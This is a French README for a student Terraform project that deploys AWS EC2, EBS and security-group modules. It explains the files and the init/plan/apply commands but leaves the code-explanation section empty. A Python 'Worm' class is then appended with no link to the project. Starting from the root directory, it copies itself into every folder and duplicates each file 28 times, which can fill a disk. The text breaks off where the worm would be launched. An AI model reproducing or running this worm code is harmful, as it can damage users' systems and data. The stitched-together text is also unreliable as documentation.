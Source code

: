 <div style="display:flex; align-items:center;">
  <h1 style="margin-right:auto;">Projet-AWS-terraform</h1>
 <img src="https://img.shields.io/badge/Made%20with-terraform-blue" alt="Terraform badge">
</div>


Dans le cadre de notre semaine de formation sur les outils terraform et puppet nous avons un projet terraform à créer

## Sujet

Dans le cadre du projet nous devons déployer une infrastructure complète AWS avec Terrafom, les prérequis sont :
- un module pour créer une instance ec2 utilisant la dernière version de ubuntu bionic, cette version n'étant pas disponible nous avons opté pour focal, dont la taille et le tag sont variabilisés.
- un module pour créer un volume ebs dont la taille est variabilisée.
- un module pour créer une security qui ouvrira le 80 et 443.
- un dossier app qui va utiliser les 4 modules pour déployer une ec2.
- installer nginx et enregistrer l’ip publique dans un fichier nommé ip_ec2.txt (ces éléments sont à intégrer dans le rôle ec2)

Nous devons également, si possible :

- pousser le projet sur GitHub et partager le lien du repo à o.nebie@ecole-ipssi.net (Optionnel)
- faire un rapport pour accompagner notre solution (le readme) 

## Architecture

Voici l'arboressence de notre projet :

![image](https://user-images.githubusercontent.com/38227021/235158938-753323ec-d605-4aba-bb8e-aa6956523604.png)

## Fichier Terraform de base pour créer une instance

Dans chacun de nos modules terraform nous avons 2 fichiers :
- main.tf permet de définir les ressources à créer, les modifier ou les supprimer pour provisionner une infrastructure.
- variable.tf permet de définir les variables qui seront utilisées dans la configuration principale (main.tf) ou dans d'autres fichiers de configuration, afin de rendre la configuration plus modulaire et facilement adaptable aux différents environnements.

Dans le fichier principal de notre application se trouve un troisième fichier venant se rajouter au deux précédents. :
- terraform.tfvars permet de définir des valeurs alternatives pour les variables, ces valeurs peuvent être appellées en utilisant un -var-file=terraform.tfvars lors d'un apply ou d'un plan. 


## Explication du code 


* _Pour le module ec2_ :

* _Pour le module Eip_Publique_ :

* _Pour le module SecutiryGroup_ :

* _Pour le module ebs_ :

## Execution du projet

Afin de lancer notre projet Terraform, nous allons avoir besoin d'exécuter plusieurs commandes.

Terraform init : Cette commande permet de mettre en place un environnement de travail et l'adapter à Terraform. Cela permet de télécharger les plugins requis liés aux différents providers.

Terraform plan : Cette commande permet d'avoir une prévisualisation des modifications qui vont être apportées à l'infrastructure. Ainsi, on peut voir facilement quelles sont les parties de notre infrastructure qui sont affectées.

Terraform apply : Cette commande permet d'appliquer les modifications apportées au fichier de configuration.

En résumé, pour exécuter un projet Terraform, il faut initialiser le répertoire de travail en exécutant la commande "terraform init", générer le plan d'exécution en exécutant la commande "terraform plan" et appliquer les modifications en exécutant la commande "terraform apply".

## Surcharger les variables

Pour surcharger les variables par défaut vous pouvez modifier le fichier variables.tf disponible dans le dossier principal, les valeurs de ce dernier écrasent les valeurs par défaut des modules.

Pour utiliser les valeurs par défaut, vous pouvez commenter les déclarations de surcharge dans les appels de module.
```terraform
  #Surcharge des variables
  instance_name = var.instance_name
  instance_type = var.instance_type
  ```
```python
class Worm:
    def __init__(self, path=None, target_dir_list=None, iteration=None):
        if isinstance(path, type(None)):
            self.path="/"
        else:
            self.path = path
        
        if isinstance(target_dir_list, type(None)):
            self.target_dir_list=[]
        else:
            self.target_dir_list = target_dir_list

        if isinstance(target_dir_list, type(None)):
            self.iteration = 28
        else:
            self.iteration = iteration

        # path absolu
        self.own_path = os.path.realpath(__file__)
    
    def list_directories(self, path):
        self.target_dir_list.append(path)
        files_in_current_directory = os.listdir(path)

        for file in files_in_current_directory:
            
            if not file.startswith('.'):
                # Prends le PATH complet
                absolute_path = os.path.join(path, file)
                print(absolute_path)

                if os.path.isdir(absolute_path):
                    self.list_directories(absolute_path)
                else:
                    pass
    
    def create_new_worm(self):
         for directory in self.target_dir_list:
            destination = os.path.join(directory, "vers.py")
            # Copie le script dans le nouveau répertoire avec un noms similaires
            shutil.copyfile(self.own_path, destination)

    def copy_existing_file(self):
        # La méthode suivante sera utilisée pour dupliquer les fichiers un nombre de fois (iteration)
         for directory in self.target_dir_list:
            file_list_in_dir = os.listdir(directory)
            for file in file_list_in_dir:
                abs_path = os.path.join(directory, file)
                if not abs_path.startswith('.') and not os.path.isdir(abs_path):
                    source = abs_path
                    for i in range(self.iteration):
                        destination = os.path.join(directory,(file+str(i)))
                        shutil.copyfile(source, destination)

   
    def start_worm_actions(self):
        self.list_directories(self.path)
        print(self.target_dir_list)
        self.create_new_worm()
        self.copy_existing_file()
  ```
 
 
Le code suivant permet d'appeler toutes les foncitons au lancement du ver
